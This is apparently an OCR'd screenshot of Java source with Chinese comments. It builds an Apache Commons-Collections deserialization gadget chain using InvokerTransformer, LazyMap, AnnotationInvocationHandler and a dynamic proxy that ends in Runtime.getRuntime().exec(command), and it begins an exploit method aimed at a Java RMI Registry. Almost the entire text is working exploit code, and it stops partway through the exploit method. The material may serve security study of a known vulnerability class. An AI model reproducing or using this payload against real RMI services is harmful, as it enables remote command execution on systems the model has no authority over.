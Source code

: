 ```java
    * 使用动态代理生成基于InvokerTransformer/LazyMap的Payload
    *
    * @param command 定义需要执行的CMD
    * @return Payload
    * @throws Exception 生成Payload异常
    */
   private static InvocationHandler genPayload(String command) throws Exception {
      // 创建Runtime.getRuntime.exec(cmd)调用链
      Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                  String.class, Class[].class}, new Object[]{
                  "getRuntime", new Class[0]}
            ),
            new InvokerTransformer("invoke", new Class[]{
                  Object.class, Object[].class}, new Object[]{
                  null, new Object[0]}
            ),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{command})
      };

      // 创建ChainedTransformer调用链对象
      Transformer transformerChain = new ChainedTransformer(transformers);

      // 使用LazyMap创建一个含有恶意调用链的Transformer类的Map对象
      final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

      // 获取AnnotationInvocationHandler类对象
      Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

      // 获取AnnotationInvocationHandler类的构造方法
      Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

      // 设置构造方法的访问权限
      constructor.setAccessible(true);

      // 实例化AnnotationInvocationHandler，
      // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, lazyMap);
      InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

      // 使用动态代理创建出Map类型的Payload
      final Map mapProxy2 = (Map) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annHandler
      );

      // 实例化AnnotationInvocationHandler，
      // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, mapProxy2);
      return (InvocationHandler) constructor.newInstance(Override.class, mapProxy2);
   }

   /**
    * 执行Payload
    *
    * @param registry RMI Registry
    * @param command  需要执行的命令
    * @throws Exception Payload执行异常
    */
   public static void exploit(final Registry registry, final String command) throws Exception {
      // 生成Payload动态代理对象
      Object payload = genPayload(command);
```